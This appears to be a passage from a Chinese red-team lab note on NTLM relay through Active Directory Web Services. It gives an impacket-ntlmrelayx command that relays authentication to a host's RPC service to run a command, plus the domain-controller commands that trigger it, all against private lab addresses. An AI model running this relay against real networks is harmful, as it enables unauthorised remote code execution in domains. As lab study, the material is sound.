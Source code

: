 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/24.png)

**ADWS(built upon NetTcpBinding WCF)**

kali 上启用(192.168.141.129)
```
impacket-ntlmrelayx --no-smb-server --no-http-server -t rpc://192.168.141.132 -c "echo a > c:\test"
```

域控上执行
```
Get-Command
get-aduser -filter * -server 192.168.141.129
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/25.png)
